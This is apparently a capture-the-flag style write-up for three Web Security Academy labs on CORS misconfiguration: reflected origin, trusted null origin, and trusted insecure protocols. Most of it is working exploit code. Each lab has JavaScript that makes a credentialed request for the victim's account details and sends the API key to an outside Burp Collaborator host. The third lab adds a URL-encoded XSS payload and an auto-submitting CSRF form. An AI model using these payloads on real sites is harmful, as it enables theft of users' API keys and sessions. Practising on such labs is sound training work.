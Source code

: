# Lab: CORS vulnerability with basic origin reflection

The first thing we need is to find out which resources wwill return the "Access-Control-Allow-Credentials" or "Access-Control-Allow-Origin" in order to exploit this acceptence and retrieve the admin's API key. After looking around we find that the /accountDetails return the desired cookies:
```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://exploit-ac991f221e40a77180f10053017a009a.web-security-academy.net
Access-Control-Allow-Credentials: true

{
  "username": "wiener",
  "email": "",
  "apikey": "bTAkQD1TJZNEwe4addvO8IXN6E0Mkbma",
  "sessions": [
    "NHIGZYXE99Hknr9RSxVwgks0Pglm8RXC"
  ]
}
```
Next we need to use this in order to relax the SOP machanism. This can be done by sending this request before the API key read like so:
```html
<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://ace81f9f1ed1a796808c002f00de003e.web-security-academy.net/accountDetails',true);
req.withCredentials = true;
req.send();


function reqListener() {
location='//sjfwiq40ukmy29m2y3kxopepsgy7mw.burpcollaborator.net/log?key='+this.responseText;
};
</script>
```

# Lab: CORS vulnerability with trusted null origin

Note that if we send the accountDetails with Origin: null we get:
```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true

{
  "username": "wiener",
  "email": "",
  "apikey": "7N5RtvnH051NW4AUKG1t0Op95F7tjsUw",
  "sessions": [
    "zj6zHj1zvowaydhulr1xD87JEoTtWwKd"
  ]
}
```

Using the Iframe technique to execute the call to accountDetails with an Origin: null in order to get the relaxation for SOP:
```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://acf01f931f1adfe380c04890007200bb.web-security-academy.net/accountDetails',true);
req.withCredentials = true;
req.send();
function reqListener() {
location='https://vqplle5qte9nzasa3mi75wk1rsxkl9.burpcollaborator.net/log?key='+this.responseText;
};</script>"></iframe>
```

# Lab: CORS vulnerability with trusted insecure protocols

We first need to find the MITM target to insert our script to. Note that the check stock request is for HTTP and is vulnerable to XSS (productId can be html and it will be embedded in the page).
We then construct the script that the victim's browser will execute (from a valid origin and CORS) like so:

```html
<script>var req = new XMLHttpRequest();req.onload = reqListener;req.open('get','https://ac7e1f0b1fc1ccd980822389001000f7.web-security-academy.net/accountDetails',true);req.withCredentials = true;req.send();function reqListener() {location='http://69dxye6i0e0v66jydjfhs1rxmosfg4.burpcollaborator.net/log?key='+this.responseText;};</script>
```
Encoded to:
```http
%3c%73%63%72%69%70%74%3e%76%61%72%20%72%65%71%20%3d%20%6e%65%77%20%58%4d%4c%48%74%74%70%52%65%71%75%65%73%74%28%29%3b%72%65%71%2e%6f%6e%6c%6f%61%64%20%3d%20%72%65%71%4c%69%73%74%65%6e%65%72%3b%72%65%71%2e%6f%70%65%6e%28%27%67%65%74%27%2c%27%68%74%74%70%73%3a%2f%2f%61%63%37%65%31%66%30%62%31%66%63%31%63%63%64%39%38%30%38%32%32%33%38%39%30%30%31%30%30%30%66%37%2e%77%65%62%2d%73%65%63%75%72%69%74%79%2d%61%63%61%64%65%6d%79%2e%6e%65%74%2f%61%63%63%6f%75%6e%74%44%65%74%61%69%6c%73%27%2c%74%72%75%65%29%3b%72%65%71%2e%77%69%74%68%43%72%65%64%65%6e%74%69%61%6c%73%20%3d%20%74%72%75%65%3b%72%65%71%2e%73%65%6e%64%28%29%3b%66%75%6e%63%74%69%6f%6e%20%72%65%71%4c%69%73%74%65%6e%65%72%28%29%20%7b%6c%6f%63%61%74%69%6f%6e%3d%27%68%74%74%70%3a%2f%2f%36%39%64%78%79%65%36%69%30%65%30%76%36%36%6a%79%64%6a%66%68%73%31%72%78%6d%6f%73%66%67%34%2e%62%75%72%70%63%6f%6c%6c%61%62%6f%72%61%74%6f%72%2e%6e%65%74%2f%6c%6f%67%3f%6b%65%79%3d%27%2b%74%68%69%73%2e%72%65%73%70%6f%6e%73%65%54%65%78%74%3b%7d%3b%3c%2f%73%63%72%69%70%74%3e
```
Now we can construct the html for the victim that will trigger our request for the API from the user with the right CORS creds. The final HTML is:
```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://stock.ac7e1f0b1fc1ccd980822389001000f7.web-security-academy.net/">
      <input type="hidden" name="productId" value="&lt;script&gt;var&#32;req&#32;&#61;&#32;new&#32;XMLHttpRequest&#40;&#41;&#59;req&#46;onload&#32;&#61;&#32;reqListener&#59;req&#46;open&#40;&apos;get&apos;&#44;&apos;https&#58;&#47;&#47;ac7e1f0b1fc1ccd980822389001000f7&#46;web&#45;security&#45;academy&#46;net&#47;accountDetails&apos;&#44;true&#41;&#59;req&#46;withCredentials&#32;&#61;&#32;true&#59;req&#46;send&#40;&#41;&#59;function&#32;reqListener&#40;&#41;&#32;&#123;location&#61;&apos;http&#58;&#47;&#47;69dxye6i0e0v66jydjfhs1rxmosfg4&#46;burpcollaborator&#46;net&#47;log&#63;key&#61;&apos;&#43;this&#46;responseText&#59;&#125;&#59;&lt;&#47;script&gt;" />
      <input type="hidden" name="storeId" value="1" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```
